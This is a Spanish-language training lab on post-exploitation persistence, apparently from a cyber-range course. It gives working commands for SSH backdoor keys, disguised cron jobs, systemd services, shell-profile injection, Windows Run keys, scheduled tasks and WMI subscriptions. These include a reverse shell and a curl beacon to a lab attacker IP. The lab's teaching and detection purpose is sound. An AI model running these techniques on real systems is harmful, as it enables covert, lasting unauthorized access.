


::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulada, comandos reales y tracking de progreso.

👉 [**Abrir Lab Interactivo — Sin Docker**](/CyberDefense-Pro-Network/labs-interactive/lab-persist-01.html)
:::

# 🔒 Lab persist-01: Técnicas de Persistencia

> Implementa mecanismos de persistencia en sistemas Linux y Windows para mantener acceso tras reinicios.

## 📊 Diagrama del Escenario



## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:

- [ ] Implementar persistencia vía SSH keys
- [ ] Crear cron jobs ocultos en Linux
- [ ] Instalar servicios systemd persistentes
- [ ] Configurar Registry Run keys en Windows
- [ ] Crear Scheduled Tasks en Windows
- [ ] Usar WMI para persistencia silenciosa
- [ ] Detectar cada técnica implementada

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 60 minutos |
| **XP en juego** | 350 puntos |
| **Herramientas** | ssh-keygen, crontab, sc, reg, schtasks |
| **Flags** | 7 |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno
cd labs/intermedio/persist-01
docker compose up -d

# Obtener shell Linux
docker compose exec persist-linux bash

# Contraseña lowuser: lowuser123
```

## 📋 Ejercicios — Linux (175 XP)

### Ejercicio 1: SSH Key Persistence (40 XP)

**Objetivo:** Mantener acceso con claves SSH personalizadas.

```bash
# Generar par de claves
ssh-keygen -t ed25519 -f /home/lowuser/.ssh/backdoor -N ""

# Instalar clave pública del atacante
cat /home/lowuser/.ssh/backdoor.pub >> /home/lowuser/.ssh/authorized_keys

# Verificar acceso
ssh -i /home/lowuser/.ssh/backdoor lowuser@10.0.5.10

# Ocultar la clave
chmod 600 /home/lowuser/.ssh/backdoor
chattr +i /home/lowuser/.ssh/authorized_keys  # Prevenir eliminación
```

**Preguntas:**
1. ¿Dónde se almacenan las claves SSH? `[___]`
2. ¿Cómo harías para que la clave persista tras `authorized_keys` reset? `[___]`
3. ¿Cómo detectarías esta persistencia? `[___]`

**Flag:** `[___]`

---

### Ejercicio 2: Cron Job Persistence (45 XP)

**Objetivo:** Crear tareas programadas que ejecuten payloads periódicamente.

```bash
# Cron job simple (cada 5 minutos)
(crontab -l 2>/dev/null; echo "*/5 * * * * /tmp/.backup.sh") | crontab -

# Script de persistencia
cat > /tmp/.backup.sh << 'SH'
#!/bin/bash
# Parece un backup legítimo
echo "[$(date)] Backup completado" >> /tmp/.backup.log
# Reverse shell silencioso
bash -i >& /dev/tcp/10.0.5.100/4444 2>&1 &
SH
chmod +x /tmp/.backup.sh

# Cron en /etc/cron.d (requiere root para crear)
echo "*/10 * * * * root /opt/.system-helper" > /etc/cron.d/.hidden

# At job
echo "/tmp/.backup.sh" | at now + 1 minute
```

**Preguntas:**
1. ¿Qué ubicaciones de cron son ideales para persistencia? `[___]`
2. ¿Cómo disfrazarías un cron malicioso? `[___]`
3. ¿Cómo se detecta un cron sospechoso? `[___]`

**Flag:** `[___]`

---

### Ejercicio 3: Systemd Service Persistence (45 XP)

**Objetivo:** Instalar un servicio systemd que se ejecute al inicio.

```bash
# Crear servicio
cat > /etc/systemd/system/sys-helper.service << 'EOF'
[Unit]
Description=System Helper Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/opt/.sys-helper
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF

# Crear el "servicio" (payload)
cat > /opt/.sys-helper << 'SH'
#!/bin/bash
while true; do
    echo "[$(date)] Service running" >> /var/log/sys-helper.log
    sleep 60
done
SH
chmod +x /opt/.sys-helper

# Activar e iniciar
systemctl daemon-reload
systemctl enable sys-helper.service
systemctl start sys-helper.service

# Verificar
systemctl status sys-helper.service
```

**Preguntas:**
1. ¿Qué ventaja tiene systemd sobre crontab? `[___]`
2. ¿Qué campos de un servicio systemd son clave para persistencia? `[___]`
3. ¿Cómo detectarías un servicio malicioso? `[___]`

**Flag:** `[___]`

---

### Ejercicio 4: Bashrc/Profile Injection (45 XP)

**Objetivo:** Inyectar código en scripts de shell que se ejecutan al login.

```bash
# Inyectar en .bashrc
echo '' >> /home/lowuser/.bashrc
echo '# System configuration' >> /home/lowuser/.bashrc
echo 'nohup /opt/.hidden-service &>/dev/null &' >> /home/lowuser/.bashrc

# Inyectar en /etc/profile (todos los usuarios)
echo 'nohup /opt/.global-helper &>/dev/null &' >> /etc/profile

# Inyectar en .bash_profile
echo 'source /opt/.env-config' >> /home/lowuser/.bash_profile

# Crear el payload
cat > /opt/.hidden-service << 'SH'
#!/bin/bash
while true; do
    curl -s http://10.0.5.100:8080/beacon?user=$(whoami)&host=$(hostname) &>/dev/null
    sleep 300
done
SH
chmod +x /opt/.hidden-service
```

**Flag:** `[___]`

## 📋 Ejercicios — Windows (175 XP)

### Ejercicio 5: Registry Run Keys (45 XP)

**Objetivo:** Persistir vía claves del Registro de Windows.

```powershell
# Run key (se ejecuta en cada login)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemHelper" /t REG_SZ /d "C:\temp\helper.exe" /f

# RunOnce (se ejecuta una vez en cada login)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v "Update" /t REG_SZ /d "C:\temp\update.exe" /f

# Para todos los usuarios (requiere admin)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityService" /t REG_SZ /d "C:\temp\service.exe" /f

# Service DLL hijacking
reg add "HKLM\System\CurrentControlSet\Services\WSecurity" /v "ServiceDll" /t REG_EXPAND_SZ /d "C:\temp\evil.dll" /f
```

**Preguntas:**
1. ¿Cuál es la diferencia entre `Run` y `RunOnce`? `[___]`
2. ¿Qué otras claves de persistencia existen en el Registro? `[___]`
3. ¿Cómo se detectan entradas sospechosas? `[___]`

**Flag:** `[___]`

---

### Ejercicio 6: Scheduled Tasks (45 XP)

**Objetivo:** Crear tareas programadas persistentes.

```powershell
# Crear tarea programada
schtasks /create /tn "SystemUpdate" /tr "C:\temp\update.exe" /sc daily /st 09:00 /f

# Tarea oculta (sin ventana)
schtasks /create /tn "BackgroundSync" /tr "powershell -WindowStyle Hidden -File C:\temp\sync.ps1" /sc hourly /f

# Tarea con trigger de inicio
schtasks /create /tn "BootHelper" /tr "C:\temp\helper.exe" /sc onstart /f

# Listar tareas
schtasks /query /fo LIST /v

# Verificar
schtasks /query /tn "SystemUpdate"
```

**Flag:** `[___]`

---

### Ejercicio 7: WMI Event Subscription (40 XP)

**Objetivo:** Usar WMI para persistencia silenciosa.

```powershell
# Crear evento de WMI que se ejecuta al iniciar
$Filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "SystemFilter"
    EventNamespace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Second = 0"
}

$Consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "SystemConsumer"
    CommandLineTemplate = "C:\temp\wmi-payload.exe"
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $Filter
    Consumer = $Consumer
}

# Verificar
Get-WmiObject -Namespace "root\subscription" -Class __EventFilter
Get-WmiObject -Namespace "root\subscription" -Class CommandLineEventConsumer
```

**Preguntas:**
1. ¿Por qué WMI es difícil de detectar? `[___]`
2. ¿Qué eventos pueden activar un WMI subscription? `[___]`
3. ¿Cómo limpiar una WMI persistence? `[___]`

**Flag:** `[___]`

## 🔍 Flujo de Resolución



## 🏁 Validación

```bash
./scripts/validate.sh
```

## 📝 Criterios de Éxito

| Ejercicio | Criterio | Puntos | Estado |
|-----------|----------|--------|--------|
| 1 | SSH key instalada | 40 | ⬜ |
| 2 | Cron job creado | 45 | ⬜ |
| 3 | Systemd service activo | 45 | ⬜ |
| 4 | Bashrc inyectado | 45 | ⬜ |
| 5 | Registry Run key | 45 | ⬜ |
| 6 | Scheduled Task | 45 | ⬜ |
| 7 | WMI subscription | 40 | ⬜ |
| **Total** | | **350** | ⬜ |

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### SSH Key
```bash
ssh-keygen -t ed25519 -f /home/lowuser/.ssh/.backdoor -N ""
cat /home/lowuser/.ssh/.backdoor.pub >> /home/lowuser/.ssh/authorized_keys
```

### Cron
```bash
(crontab -l; echo "*/5 * * * * /opt/.hidden-script") | crontab -
```

### Systemd
```bash
systemctl enable --now persistent-helper
```

### Windows Registry
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Helper" /d "C:\temp\helper.exe"
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
